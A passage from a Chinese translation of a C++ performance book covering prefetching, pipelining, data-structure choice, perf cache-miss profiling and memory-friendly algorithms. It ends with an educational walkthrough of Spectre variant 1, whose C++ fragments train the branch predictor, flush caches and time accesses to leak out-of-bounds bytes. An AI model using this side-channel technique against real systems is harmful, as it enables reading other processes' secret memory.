图的整体形状和以前一样，但不同之处和相似之处同样重要。首先，需要注意的是纵轴的刻度，时间值比我们在图4.5中看到的要小得多。写一个256位的值只需要2.5纳秒，而64位的整数只需要0.8纳秒。

第二个区别是数据块不同时，曲线不再相同。需要注意的是，此结果高度依赖硬件。许多系统中，将会看到与前一节中的结果更加相似的结果。在我使用的硬件上，对于不同大小的数据块，L1缓存的顺序写时间是相同的，但对于其他缓存和主存则不同。在主存写入时，可以观察到，写入64位整数的时间，并不是写入32位整数所需的时间的两倍，对于更大的数据，每次数据量加倍时，写入时间都加倍。这说明，限制不是每秒可以写多少个数据块，而是每秒可以写多少个字节:对于所有数据块的大小(除了最小的一个)，每秒写入的字节数是相同的。现在限制速度的不是延迟，而是带宽。以总线能够传输的最快速度推送到内存中，无论将它们分为64位的数据块，还是256位的数据块，现在都已经达到了内存的带宽限制。本章中，这个结果比之前所做的观察更加依赖硬件。在许多机器上，会出现内存足够快，而CPU无法饱和使用其带宽的情况。

虽然与缓存大小相对应的曲线中的"阶梯"仍然可见，但不那么明显，也不那么陡峭。现在已经有了结果，也进行了观察。那结论是什么呢？

**4.4.3硬件中的内存性能优化**

三个观察结果需要结合起来，可以看出硬件使用了某种隐藏延迟的技术(除了改变内存访问顺序外，没有做任何事情来提高代码的性能，所以这些改进都归功于硬件)。当随机访问主内存时，每次访问在我的机器上需要7纳秒。这是从特定地址的数据请求到交付至CPU寄存器所花费的时间，这个完全由访存延迟决定(不管请求了多少字节，必须等待7纳秒)。当按顺序访问内存时，硬件可以开始传输数组的下一个元素。访问第一个元素仍然需要7纳秒，顺序访问内存时，硬件可以马上访问数组的下一个元素。第一个元素仍然需要7纳秒来访问，此后硬件以CPU和内存总线处理它的速度将整个数组从内存中写入或读出。数组中第二个和之后元素的传输，有可能在CPU发出数据请求之前就开始了。因此，延迟不再是限制因素，而带宽才是。

当然，这是假设硬件已知要按顺序访问整个数组，以及这个数组有足够大。在现实中，硬件什么都不知道，就像上一章学习的条件指令一样，内存系统中有学习回路，可以做出有根据的猜测。在我们的示例中，出现了**预取**。当内存控制器注意到CPU已经连续访问了几个地址，就会假设这个地址会继续使用，并为访问下一个内存位置做准备，将数据传输到L1缓存中(用于读操作)，或者在L1缓存中腾出空间(用于写操作)。理想情况下，预取技术允许CPU始终以L1缓存的速度访问内存，当CPU需要每个数组元素时，其已经在L1缓存中了。实际情况是否符合这种理想情况，要取决于CPU在访问相邻元素之间做了多少工作。在基准测试中，CPU几乎不做任何工作，而预取则落后了。期望线性顺序访问，则没有办法足够快地在主内存和L1缓存之间传输数据。然而，预取在隐藏内存访问延迟方面非常有效。

预取并不是基于如何访问内存的预测或先验(有一些特定于平台的系统调用，允许程序通知硬件某个范围的内存将被顺序访问，但这是不可移植的，而且在实践中很少奏效)。相反，预取尝试在访问内存时检测访存模式。因此，预取的有效性取决于，访存模式和下一次访问的位置。

关于预取模式检测的局限性有很多信息，其中很多都已经过时。在较早的文献中，可以读到按向前顺序访问内存(对于数组`a`，从`a[0]`到`a[N-1]`)比向后访问更高效。这对现代CPU来说都不再适用，而且现在已经不是这样了。如果我开始准确地描述，哪些模式在预取方面是有效的，哪些模式是无效的，那么该书就有落入同样陷阱的风险。最后，如果算法需要特定的内存访问模式，并且想知道预取能否处理它，最可靠的方法是使用与随机内存访问类似的基准测试进行测试。

通常，预取对于访问内存的递增顺序和递减顺序都有效。在预取调整到新的模式之前，反转方向会有一些性能损失。像访问数组中的每4个元素这样的跨步处理，会被检测和预测，其效率与密集的顺序访问一样。预取能够检测多个并发跨步(即访问每3个和每7个元素)，但当硬件功能从一个处理器转移到另一个处理器时，必须自己对数据进行紧致化处理。

硬件非常成功地采用的另一种性能优化技术:**流水线**或**硬件循环展开**。在上一章中我们已经了解过，这种技术可以用来隐藏由条件指令引起的延迟。通常，流水线也可用于隐藏内存访问的延迟。看一下这个循环:

``` {style="styleCXX"}
for (size_t i = 0; i < N; ++i) {
	b[i] = func(a[i]);
}
```

每次迭代从数组中读取一个值`a[i]`，进行一些计算，并将结果存储在另一个数组`b[i]`中。读和写都需要时间，可以期望循环执行的时间轴是这样的:

\
图4.7 - 非流水线循环的时间线

这个操作序列会让CPU在大部分时间里等待内存操作完成。硬件将提前读入指令流，并覆盖彼此不依赖的指令序列:

\
图4.8 - 流水线(展开)循环的时间线

假设有足够的寄存器，第二数组元素的加载可以在第一个数组元素读取后立即开始。简单来说，假设CPU不能一次加载两个值(大多数真正的CPU可以同时做多个内存访问，这意味着流水线可以更宽)，当有输入值可用，第二组计算就开始。前几个步骤中，指令载入流水，CPU花费了大部分时间进行计算(如果来自不同迭代的计算步骤重叠，CPU甚至可以一次执行多个迭代，只要有足够多的计算单元)。

流水线可以隐藏内存访问的延迟，但这是有限制的。读取一个值需要7纳秒，需要读取一百万个值，最多需要7毫秒，这是无法避免的(假设CPU一次只能读取一个值)。流水线操作可以通过将计算与内存操作重叠来减少读取时间，在理想情况下，所有计算都在这7毫秒内完成。预取可以在我们需要它之前读取下一个值，从而减少读取时间，但前提是猜测正确。无论哪种方式，本章中所做的测量都展示了以不同方式访问内存的最佳情况。

测量内存速度和呈现结果方面，我们已经了解了基础知识，并了解了内存系统的通用属性。更详细或具体的测量方法留给读者作为练习，可以收集所需的数据，以便对特定应用程序的性能要求做出明智的决策。现在我们把注意力转到下一个阶段:知道内存是如何工作的，了解了可以在内存方面得到什么性能，那我们需要做些什么才能提高程序的性能呢？

###  4.5.优化内存性能 {#优化内存性能 .unnumbered}

很多开发者在学习上一节的内容时，第一反应通常是这样的:"谢谢!我现在理解了为什么我的程序很慢，但我必须处理我的数据，不只是理想的32KB，算法就是这样，包括复杂的数据访问模式，所以我无能为力。"如果不了解如何为需要解决的问题获得更好的内存性能，那么这一章就没有多大意义。本节中，将了解可以用来提高内存性能的技术。

**4.5.1节约内存数据结构**

就内存性能而言，数据结构或数据组织的选择通常是开发者所做的重要的决策。重要的是要理解能做什么和不能做什么。图4.5和图4.6展示了内存性能，这里不能绕过它(严格地说，这是99%的正确。有一些奇异的内存访问技术，很少会超过这些图中所示的限制)。但可以在这些图上选择与自己程序相对应的点。首先考虑一个简单的示例。有1M个64位的整数，需要按顺序存储和处理。可以将这些值存储在数组中，数组的大小将为8MB。根据测试，每个值的访问时间约为0.6纳秒，如图4.6所示。

\
图4.9 - 写入数组(A)\[随机\]和列表(L)\[顺序\]的时间

首先，可以使用链表来存储。`std::list`是节点的集合，每个节点都有一个值和两个指向下一个和上一个节点的指针。因此，整个链表使用24MB的内存。此外，每个节点通过对`operator new`的单独调用来分配，因此不同的节点可能位于不同的地址，特别是当程序同时进行其他内存分配和回收时。在遍历这个链表时，访问的地址没有任何模式，所以要找到这个链表的性能点，需要做的就是在曲线上找到对应于随机内存访问的24MB内存范围的点。这使得每个值的访问比数组中的相同数据慢了5纳秒或一个数量级。

这些，前一章已经证明。可以构造一个微基准来比较将数据写入相同大小的链表和数组的区别。以下是数组的基准测试:

\
**03_list_vector.C**

``` {style="styleCXX"}
template <class Word>
void BM_write_vector(benchmark::State& state) {
	const size_t size = state.range(0);
	std::vector<Word> c(size);
	Word x = {};
	for (auto _ : state) {
		for (auto it = c.begin(), it0 = c.end(); it !=
		it0;) {
			REPEAT(benchmark::DoNotOptimize(*it++ = x);)
		}
		benchmark::ClobberMemory();
	}
}
BENCHMARK_TEMPLATE1(BM_write_vector, unsigned long)-
>Arg(1<<20);
```

将`std::vector`改为`std::list`来创建一个基准测试。与之前的基准测试相比，现在是容器中元素的数量已经发生了变化，因此内存大小将取决于元素类型和容器本身，如图4.6所示。对于1M个元素，结果与预期完全一致:

\
图4.10 - 链表和数组的基准测试结果

为什么会有人选择链表，而不是数组(或`std::vector`)？最常见的原因是，在创建时不知道有多少数据，并且由于涉及复制，增长`std::vector`的效率非常低。有几种方法可以解决这个问题，有时可以预先计算出数据的最终大小，需要对输入数据进行一次扫描，以确定为结果分配多少空间。如果有效地组织了输入，那么可能需要对输入进行两次传递:第一次是计数，第二次是进行处理。

如果不能提前知道最终的数据大小，可能需要一种更智能的数据结构，将`vector`的内存与`list`的调整大小效率结合起来。这可以通过使用块分配数组来实现:

{width="60%"}\
图4.11 - 块分配的数组(deque)可以在适当的位置进行增长

这种数据结构以固定数量的块分配内存，通常小到足以装入L1缓存(通常在2KB到16KB之间)。每个块都用作数组，因此每个块将顺序访问元素，而块本身在在一个链表中。我们需要扩展这个数据结构，只分配一个块，并将其添加到链表中。访问每个块的第一个元素很可能会导致缓存丢失，但是当预取检测到顺序访问的模式时，块中的其他元素可以高效地访问。按每个块中的元素数量平摊，随机访问的代价可以变得非常小，数据结构的性能几乎与数组相同。在STL中，有这样一个数据结构:`std::deque`(但大多数STL版本的实现不是特别高效，顺序访问`deque`通常比访问相同大小的`vector`慢一些)。

另一个原因是，链表允许在任何点进行快速插入，而不仅仅是在末尾。如果需要，必须使用链表或另一个节点分配的容器。这种情况下，最好的解决方案不是选择一个适合所有需求的数据结构，而是将数据从一个数据结构迁移到另一个数据结构。如果想使用链表来存储数据元素，每次存储一个，同时保持排序顺序，那么问题来了，我们是否需要在所有元素插入后，对该顺序进行排序？还是，需要在构建过程的中间进行几次排序，而不是一直进行排序？

如果算法中发生了数据访问模式的改变，那么改变的数据结构通常对算法有利，即使要付出一些内存复制的代价。可以构造一个链表，在添加最后一个元素之后，将其复制到数组中，以加快顺序访问(假设不需要添加更多元素)。我们可以确保数据的某些部分完整，可以将该部分转换为数组，可能是块分配数组中的一个或多个，并将可变的数据保留在链表或树的数据结构中。另一方面，如果很少需要按顺序处理数据，或者需要按多个顺序处理数据，那么将顺序索引与存储数据区分开保存，通常是最好的解决方案。数据存储在`vector`或`deque`容器中，其顺序由按所需顺序排序的指针数组保存。由于现在所有的有序数据访问都是间接的(通过中间指针)，很少有这样访问的情况下这没问题；而在大多数情况下，可以按照数据存储在数组中的顺序处理数据。

若是经常访问一些数据，应该选择使最优特定访问模式的数据结构。访问模式随着时间的推移而改变，数据结构也应该改变。另一方面，如果不花太多时间访问数据，那么从一种数据格式转换到另一种数据格式的开销就不合理了。这种情况下，效率低下的数据访问从一开始就不应该存在。这就引出了下一个问题:如何确定哪些数据访问效率低，或者说，哪些数据访问成本高呢？

**4.5.2分析内存性能**

通常，特定数据结构或数据组织的效率相当高，有一个包含数组或`vector`的类，并且这个类的接口只允许一种数据访问模式，即从开始到结束的顺序迭代(STL语言中的前向迭代器)，那么可以确定数据可以进行高效地访问(在内存级别上)。这里，不能确定算法的效率。若对数组中特定元素的线性搜索非常低效(当然，每次读取内存都是高效的，但是方法有很多。而且，我们知道更好的方法来组织数据进行搜索)。

仅仅知道哪些数据结构是内存高效的并不够，还需要知道程序在特定的数据上花费了多少时间。有时，这是不言自明的，特别是对封装良好的函数。如果有一个函数，从数据文件或时间报告得知其需要大量的时间，并且函数内的代码不是特别繁重的计算，而是移动大量的数据，那么更高效地访问这些数据很可能提升程序整体的性能。

这是一个简单的例子，因此会首先进行优化。在执行时间上，没有一个函数或代码有很大的计算量，但是程序仍然很慢。要是没有计算量的热代码，那通常会有数据的热代码。在程序中访问一个或多个数据结构，在这些数据上花费时间很大，但没有任何其他函数或循环。传统的分析会显示运行时均匀地分布在整个程序中，优化任何一段代码都收效甚微。需要某种方法找到那些，低效访问的数据。

仅靠计时工具很难收集这些信息，但利用硬件事件计数器的分析器可以收集相关信息。大多数CPU都可以计算内存访问，更确切地说，可以计算缓存命中和未命中。这里，再次使用`perf`分析器，通过下面的命令，可以看到L1缓存的使用效率:

缓存测量计数器不是默认计数器集的一部分，必须显式指定。可用计数器的集合因CPU而不同，但可以通过运行`perf list`命令查看。我们的例子中，在读取数据时测量L1缓存未命中。术语**dcache**代表**数据缓存**(data
cache，发音为dee-cache)。CPU还有一个单独的**指令缓存**或**icache**(念作ay-cache)，用于从内存中加载指令。

可以使用这个命令行参数，来配置内存基准测试来读取随机地址的内存。当内存范围很小(比如：16KB)，整个数组就能放入L1缓存中，几乎不会出现缓存未命中的情况:

\
图4.12 - 测试良好使用L1缓存的程序

将内存大小增加到128MB意味着缓存未命中非常频繁:

\
图4.13 - 测试未良好使用L1缓存的程序

注意，`perf stat`会收集整个程序的测量值，其中一些内存访问是缓存高效的，一些不是。想知道哪里对内存访问的处理很糟糕，可以使用`perf record`和`perf report`获得详细的数据信息，如第2章所示(使用了不同的计数器，但是选择收集数据的过程是相同的)。当然，如果最初的数据没有检测到任何热代码，缓存数据也会显示同样的结果。代码中的许多位置，缓存未命中的比例都很大。每个位置对总体执行时间没什么贡献，但这会累积。现在，这些代码位置中的许多都有一个共同点，对内存进行操作。若有几十个不同的函数，总共占15%的缓存未命中率，但都在同一个链表上运行，那么这个链表就是有问题的数据结构，必须以其他方式组织数据。

现在已经了解了如何检测和识别那些低效的内存访问模式，和会对性能产生负面影响的数据结构，以及相关的替代方案，但可供选择的数据结构通常没有相同的特性或性能。如果从数据结构的整个生命周期来看，必须在任意位置插入元素，则不能用`vector`替换`list`。若不是数据结构，而是算法本身调用了低效率的内存访问，则需要改变算法。

**4.5.3优化内存性能的算法**

算法的内存性能会经常忽视。选择算法通常根据其**算法性能**或执行的操作或步骤的数量进行的，内存优化通常需要反直觉的选择。做更多的工作，甚至不必要的工作，以提高内存性能，这里是用一些计算来换取更快的内存操作。因为内存操作很慢，所以要做的工作也很多。

更快地使用内存的方法是使用更少的内存，这种方法通常会需要重新计算一些本可以存储和从内存中检索的值。最坏的情况是，如果检索结果需要随机访问，读取每个值需要几纳秒(在我们这是7纳秒)。重新计算这个值所花费的时间比这要少，而将7纳秒转换为CPU可以执行的操作数是相当长的时间，那么最好不存储这些值。这是传统的空间与内存的交换。

这种优化有一个有趣的变式。在特定时间内使用更少的内存，而不是简单地使用更少的内存。这里是想将当前工作的数据集放入缓存中，比如L2缓存，并在移动到数据的下一部分之前对它进行尽可能多的处理。将新数据集插入到缓存中会导致内存地址的缓存未命中，最好接受这一次缓存未命中，然后在一段时间内有效地操作数据。而非一次处理所有数据，并在每次需要此数据元素时，会有缓存未命中的风险。

这一章，将通过更多的内存访问来保存一些其他的内存访问。这里是希望减少缓慢的、随机的访问次数，但增加了快速的、连续的访问次数。由于顺序内存流比随机访问快一个数量级，还有很多额外的工作，以减少缓慢的内存访问。

演示需要一个更详细的示例。假设有一组数据记录，比如字符串，程序需要对其中一些记录进行一些更改。然后得到另一组修改后的数据，以此类推。每个集合将对某些记录进行更改，而其他记录保持不变。通常，这些变化会改变记录的大小及其内容。在每个集合中更改的记录子集是完全随机和不可预测的。以下是一张演示图表:

{width="70%"}\
图4.14 - 记录编辑问题。在变更集中，由\*标记编辑过的记录，其余的保持不变

解决这个问题最简单的方法是将记录存储在它们自己的内存中，并将它们组织在某种数据结构中，允许新记录的替换(因为新记录的大小通常不同，需要重新为旧记录进行分配)，数据结构可以是树(在C++中设置)或链表。为了让这个例子更加具体，这里使用字符串作为记录，还必须说明更改集的指定方式。它没有指向需要更改的特定记录，但对于每个记录，都可以对其进行更改。这种字符串更改集的最简单示例是查找和替换。这里，可以简单描述一下实现:

``` {style="styleCXX"}
std::list<std::string> data;
… initialize the records …
for (auto it = data.begin(), it0 = --data.end(), it1 = it;
true; it = it1) {
	it1 = it;
	++it1;
	const bool done = it == it0;
	if (must_change(*it)) {
		std::string new_str = change(*it);
		data.insert(it, new_str);
		data.erase(it);
	}
	if (done) break;
}
```

每个更改集中，都遍历整个记录集合，确定是否需要更改记录。如果需要，就这进行变更(更改集隐藏在函数`must_change()`和`change()`中)。代码只显示一个更改集，因此需要循环多次运行。

这个算法的缺点是使用了链表，更糟的是一直在内存中移动字符串。对新字符串的访问会出现缓存未命中。如果字符串非常长，那么初始的缓存未命中就不重要了，其余的字符串可以使用顺序访问快速读取。结果与前面的块分配数组相似，而且内存性能良好。如果字符串很短，那么整个字符串很可能在一次加载操作中读取，并且每次加载都是在一个随机地址上进行。

整个算法只在随机地址处做加载和存储，这是访问内存最糟糕的方法。那我们能做什么呢？不能将字符串存储在巨大的数组中。如果数组中间的字符串需要增长，那么内存从哪里来？该字符串后面是另一个字符串，所以这里已经没有增长的空间了。

想出的替代方案，需要进行范式转换。按字面意思执行所需操作的算法也对内存组织施加了限制。更改记录需要将它们移动到内存中，而且希望能够在不影响其他东西的情况下更改记录，所以就不能避免内存中记录的随机分布。必须从侧面来看待这个问题，从限制开始。按顺序访问所有的记录，在这个约束下，我们能做什么？可以很快地读取所有记录。可以决定记录是否更改，这一步和之前一样。如果记录必须增加，该怎么办？必须把它移到别的地方去，这些记录要按照先后顺序分配。然后，前一个记录和下一个记录也必须移动，因此它们在新记录之前和之后都保持存储状态。这是替代算法的关键:所有记录都随着每个变更集移动，无论它们是否更改。可以将所有记录存储在一个巨大的连续缓冲区中(假设已知总记录大小的上限):

{width="25%"}\
图4.15 - 按顺序处理所有记录

算法要求在复制过程中分配大小相等的第二个缓冲区，因此内存消耗峰值是数据大小的两倍:

``` {style="styleCXX"}
char* buffer = get_huge_buffer();
… initialize N records …
char* new_buffer = get_huge_buffer();
const char* s = buffer;
char* s1 = new_buffer;
for (size_t i = 0; i < N; ++i) {
	if (must_change(s)) {
		s1 = change(s, s1);
	} else {
		const size_t ls = strlen(s) + 1;
		memcpy(s1, s, ls);
		s1 += ls;
	}
	s += ls;
}
release(buffer);
buffer = new_buffer;
```

每个更改集中，将每个字符串(记录)从旧缓冲区复制到新缓冲区。如果需要更改记录，则将新版本写入新的缓冲区；否则，将原始版本复制。对每个新的更改集，创建一个新的缓冲区，并在操作结束时释放旧的缓冲区(实现需要避免重复调用分配和释放内存，并简单地交换两个缓冲区)。

这种实现的缺点是使用巨大的缓冲区。必须确定缓冲区的大小，以便为可能遇到的最大记录分配足够的内存。峰值内存的大小也令人担忧，可以通过将这种方法与可增长数组数据结构相结合来解决这个问题。可以将记录存储在一系列大小固定的块中，而不是分配在一个连续的缓冲区中:

\
图4.16 - 使用块缓冲区进行编辑

为了简化图表，我们绘制了相同大小的所有记录，但是这个限制是不必要的。记录可以跨越多个块(将这些块视为一个连续的字节序列，仅此而已)。当编辑时，需要为已编辑的记录分配一个新块。编辑完成后，可以释放包含旧记录的块(或多个块)，从而不必等待读取整个缓冲区。甚至，可以将最近释放的块放到空块链表中，而不是返回操作系统。即将编辑下一个记录，将需要一个空的新块作为结果。刚好，这是块用来包含我们编辑的最后一个记录。它位于最近发布的块链表的头部，最重要的是，这个块是访问的最后一块内存，所以它可能仍然在缓存中!

乍一看，这个算法似乎非常糟糕，每次都要复制所有的记录。仔细地分析这两种算法。首先，读取的数量相同:两种算法都必须读取每个字符串，以确定是否更改。第二种算法在性能上领先:在一次连续扫描中读取所有数据，而第一种算法则在内存中跳跃。如果编辑该字符串，那么两个算法都必须向新的内存区域写入一个新的字符串。由于顺序内存访问模式(同样，不需要为每个字符串执行内存分配)，第二种算法提前出现了。当字符串未编辑时，就需要进行权衡。第一个算法什么都不做，第二个做了一个拷贝。

通过这种分析，可以为每个算法定义好的和坏的情况。如果字符串很短，并且在更改集中更改了大部分字符串，则顺序访问算法胜出。如果字符串很长或者很少改变字符串，随机访问算法就会获胜。然而，确定什么是长、多少是大比例的唯一方法就是测试。

这里，不一定意味着必须编写完整程序的两个版本进行测试。通常，可以对简化数据进行操作的小型模拟程序中模拟特定的行为。只需要知道记录的大致大小，有多少条更改记录，并且需要对单个记录进行更改的代码，这样就可以测试内存访问对性能的影响(如果每次更改影响都非常大，那么读取或写入记录所花费的时间就无关紧要了)。可以对这样的模拟或原型实现进行近似测试，并做出正确的设计决策。

实际中，顺序字符串复制算法值得一试么？我们已经完成了使用正则表达式模式编辑中等长度字符串(128字节)的测试。所有字符串的99%都在每个更改集中进行编辑，顺序算法的速度大约是随机算法的4倍(结果在某种程度上是特定于机器的，因此必须在与预期使用的硬件相似的硬件上进行测试)。编辑了50%的记录时，顺序访问仍然更快，但是只有12%的性能提升(这可能是在不同的CPU模型和内存类型的变化范围内，所以称之为平局)。更令人惊讶的是，如果只更改了1%的记录，那么这两种算法的速度几乎是成正比的，不进行随机读取所节省的时间将用来弥补完全不必要的复制。

改动较长的字符串，随机访问算法轻松获胜。如果改变很少的字符串，而且对于非常长的字符串，即使所有的字符串都改变，也是平局。两种算法都依次读取和写入所有字符串(对长字符串开始的随机访问增加的时间可以忽略)。

现在我们已经掌握了应用程序所需的所有算法。性能设计通常是这样的:确定性能问题的根源，并想出消除问题的方法，但代价是要做其他更多事情，然后必须建立一个测试，让我们能够确定这个方法是否真的有效。

本章的最后，将展示一个完全不同的"使用方式"，由缓存和其他硬件提供的性能改进。

###  4.6.机器里的幽灵 {#机器里的幽灵 .unnumbered}

前两章中，我们了解了在现代计算机上从初始数据到最终结果的复杂性。有时，机器会按照代码进行操作。从内存中读取数据，按写好的方式进行计算，然后将结果保存到内存中。然而，数据会经历一些我们可能不知道的中间状态。从内存中读取的过程时，CPU可能会执行别的指令，可能CPU认为读取过程需要这些别的指令等。我们试图通过直接的性能测试，来确认所有这些过程确实存在。这样的话，测量总是间接的，对代码的硬件优化和转换是为了交付正确结果而设计，毕竟只是进行了更快的计算。

本节中，将展示更多本应隐藏的硬件操作的可观察证据。这是一个重大发现:在2018年发现时引发了的网络安全恐慌，在硬件和软件供应商提供了大量补丁后才得以平息。这里，要说的就是Spectre和Meltdown安全漏洞(<https://meltdownattack.com/>)。

**4.6.1什么是Spectre？**

本节中，将详细演示Spectre攻击的早期版本，即Spectre版本1。虽然这不是一本关于网络安全的书，不过Spectre攻击通过仔细测试程序的性能来进行，依赖于本书中研究过的两种性能增强硬件技术:投机执行和内存缓存。在针对软件性能的攻击中，也可以学到一些东西。

Spectre背后的理念是，如果CPU遇到条件跳转指令，会尝试预测结果，并在假设预测正确的情况下执行指令。这就是所谓的投机执行，没有它，就不会有代码中的流水。投机执行中比较棘手的部分是错误处理，错误经常发生在推测执行的代码中，但在预测正确之前，这些错误必须不可见。最明显的例子是空指针解除引用，若处理器预测指针不为空，并执行相应的分支，那么每次分支错误预测时都会发生致命错误，而指针实际上为空。正确编写代码以避免取消空指针的引用，其也必须正确执行，但潜在的错误不能暴露出来。另一个常见的推测错误是数组边界读写:

``` {style="styleCXX"}
int a[N];
…
if (i < N) a[i] = …
```

索引`i`通常小于数组的大小`N`，那么这将成为预测条件，从`a[i]`读取的数据将预测地执行。如果预测错了怎么办？丢弃结果，所以没有造成影响，对吧？没那么简单。内存位置`a[i]`不在原始数组中，甚至不必是数组后面的元素。索引可以是任何值，因此索引的内存位置可以属于不同的程序，甚至属于操作系统，这样就没有读取该内存的权限。操作系统确实会执行访问控制，所以通常从另一个程序读取内存会触发错误。这一次，我们不确定错误是否真的存在，执行仍然处于预测阶段，分支预测可能出错。在知道这个预测是否正确之前，错误仍然是预测性错误。

然而，潜在的非法读操作有一个奇妙的副作用，`a[i]`已经加载到缓存中。下次从相同的位置读取时，读取速度会更快。无论是实际读取，还是投机的。投机执行期间的内存操作与真实执行时的操作一样。从主存读取需要更长的时间，而从缓存读取更快。可以观察和测试内存负载的速度。虽然是可衡量的副作用，但不是预期结果。实际上，该程序通过不同于预期输出的方式的额外机制进行输出，这就是所谓的边信道。

Spectre攻击利用了这个边信道:

\
图4.17 - Spectre攻击

使用在投机执行过程中获得的`a[i]`来索引另一个数组`t`。之后，数组中的一个元素`t[a[i]`将加载到缓存中。数组`t`的其余部分从未访问，仍然在内存中。与`a[i]`不同，`a[i]`实际上不是数组`a`的元素，而是使用非法手段获得的内存位置上的某个值，数组`t`完全在控制范围内。当读取`a[i]`和`t[a[i]`时，分支保持长时间的不可预测是攻击成功的关键。否则，当CPU检测到分支错误预测，并且实际上不需要这些内存访问时，投机执行就会结束。执行投机执行之后，最终会检测到错误预测，并且投机操作的所有后果都将回滚，包括潜在的内存访问错误。所有的结果只有一个，即数组`t[a[i]]`的值仍然在缓存中。这并没有什么问题，访问这个值是合法的，而且硬件总是在缓存中移动数据。这种方式永远不会改变结果，也不会访问任何不应该访问的内存。

然而，这整个系列的事件有一个可观察的结果:数组`t`中的一个元素的访问速度要比其他元素快得多:

\
图4.18 - Spectre攻击后内存和缓存的状态

可以测试读取数组`t`的每个元素所花费的时间，可以找到被`a[i]`索引的元素。其实，这就是我们不应该知道的秘密!

**4.6.2Spectre的例子**

Spectre攻击需要几步，我们将逐一介绍。总的来说，对于本书来说，这会是一个相当大的编码示例(这个特殊的实现是钱德勒·卡鲁斯在2018年CPPCon上示例的变体)。

我们需要一个精确的计时器，可以使用C++高精度计时器:

``` {style="styleCXX"}
using std::chrono::duration_cast;
using std::chrono::nanoseconds;
using std::chrono::high_resolution_clock;
long get_time() {
	return duration_cast< nanoseconds>(
	high_resolution_clock::now().time_since_epoch()
	).count();
}
```

开销和计时器的分辨率取决于实现。标准不要求任何特定的性能保证。对于x86
CPU，可以使用**时间戳计数器(TSC)**，这是一种硬件计数器，用于计算从过去某个时间开始的周期数。使用循环计数作为计时器通常会导致测试中夹杂噪声，但计时器本身更快，这在这里很重要，因为我们将尝试测量从内存加载单个值需要多长时间。GCC、Clang和许多其他编译器都有内置函数来访问这个计数器:

``` {style="styleCXX"}
long get_time() {
	unsigned int i;
	return __rdtscp(&i); // GCC/Clang intrinsic function
}
```

现在有了计时器，下一步是计时数组。实际中，不像在图中暗示的整数数组那么简单。整数在内存中太接近，将一个加载到缓存中会影响它访问邻近数据的时间。所以，需要将值分隔开:

``` {style="styleCXX"}
constexpr const size_t num_val = 256;
struct timing_element { char s[1024]; };
static timing_element timing_array[num_val];
::memset(timing_array, 1, sizeof(timing_array));
```

这里我们只使用`timing_element`的第一个字节，使用1024字节也没有什么特殊说法，只要足够大就行了，但这是必须通过测试确定的。如果距离太小，攻击就会变得不可靠。时间数组中有256个元素，因为我们要读取一个字节的秘密内存，所以数组`a[i]`是一个字符数组(即使实际的数据类型不是`char`，仍然可以逐个字节地读取)。严格地说，因为测试不取决于这个数组的内容，所以没必要初始化时间数组。

现在可以来看一下核心代码了。下面是一个简化的实现，缺少了一些必要的内容，但这里更关注如何解释代码。

需要读取数组边界外的数值:

``` {style="styleCXX"}
size_t size = …;
const char* data = …;
size_t evil_index = …;
```

这里`size`是数据的实际大小，`evil_index`大于`size`，是正确数据数组(之外)秘密值的索引。

接下来，我们将训练分支预测器，需要它了解更有可能访问数组的分支。为此，将生成一个指向数组的有效索引(稍后我们将了解如何实现)，也就是`ok_index`:

``` {style="styleCXX"}
const size_t ok_index = …; // Less than size
constexpr const size_t n_read = 100;
for (size_t i_read = 0; i_read < n_read; ++i_read) {
	const size_t i = (i_read & 0xf) ? ok_index : evil_index;
	if (i < size) {
		access_memory(timing_array + data[i]);
	}
}
```

然后，在位置`timing_array + data[i]`读取内存，其中`i`要么是`ok_index`，要么是`evil_index`，前者出现的频率明显要比后者高(在16次尝试读取中只读取一次秘密数据，以保证分支预测器已经训练的可以成功读取正确的数据)。注意，实际的内存访问有边界检查保护。我们从来没有真正读过不应该读的内存，所以此代码100%正确。

理论上来说，访问内存的函数就是读取内存。实际中，因为编译器会试图消除冗余或不必要的内存操作，所以必须与优化编译器斗智斗勇。这里有一种方法，使用了内联汇编(因为位置`*p`标记为输入，所以读指令实际上由编译器生成):

``` {style="styleCXX"}
void access_memory(const void* p) {
	__asm__ __volatile__ ( "" : :
	"r"(*static_cast<const uint8_t*>(p)) : "memory" );
}
```

我们运行了多次*预测-错误预测*循环(示例中是100次)。现在期望`timing_array`的一个元素在缓存中，所以需要测试访问每个元素需要多长时间。这里需要注意的是，按顺序访问整个数组将不起作用。预取将快速启动，并将要访问的元素移动到缓存中。大多数情况下这是有效的，但现在不需要。现在需要以随机顺序访问数组中的元素，并将访问每个元素所需的时间存储在内存访问延迟数组中:

``` {style="styleCXX"}
std::array<long, num_val> latencies = {};
for (size_t i = 0; i < num_val; ++i) {
	const size_t i_rand = (i*167 + 13) & 0xff; // Randomized
	const timing_element* const p = timing_array + i_rand;
	const long t0 = get_time();
	access_memory(p);
	latencies[i_rand] = get_time() - t0;
}
```

也许会奇怪，为什么不简单地进行快速访问呢？两个原因:首先，不确定"快"对特定的硬件来说意味着什么，只知道要比"正常速度"快，所以也要测试"正常速度"。其次，任何测试都不是100%可靠。有时计算会因另一个进程或操作系统中断，所以整个操作序列的准确时间取决于CPU当时在做什么等因素。这个进程很有可能会显示秘密内存位置的值，但不能100%的保证，所以必须多尝试几次，并取平均的结果。

这样做时，会看到的代码中有几个风险。首先，假设时间数组的值不在缓存中。即使开始时它是正确的，在成功地瞄到了第一个秘密字节之后，就不正确了。每次攻击下一个字节之前，都必须从清除缓存中计时数组:

``` {style="styleCXX"}
for (size_t i = 0; i < num_val; ++i) {
	_mm_clflush(timing_array + i); // Un-cache the array
}
```

同样，我们使用了GCC/Clang内置函数，大多数编译器中都有类似的东西，但函数名可能不同。

其次，这种攻击只能在投机执行持续足够长的时间才奏效，在两次内存访问(数据和时间数组)发生之前，CPU才会找出应该使用的分支。实际中，代码在预测上下文中没有持续足够的时间，因此必须使正确计算分支更加困难。做这件事的方法不止一种，这里使分支条件依赖于从内存中的某些值，并将数组复制到另一个访问速度较慢的变量中:

``` {style="styleCXX"}
std::unique_ptr<size_t> data_size(new size_t(size));
```

必须确保这个值从缓存中清除，然后使用`*data_size`中的数组长度进行读取:

``` {style="styleCXX"}
_mm_clflush(&*data_size);
for (volatile int z = 0; z < 1000; ++z) {} // Delay
const size_t i = (i_read & 0xf) ? ok_index : evil_index;
if (i < *data_size) {
	access_memory(timing_array + data[i]);
}
```

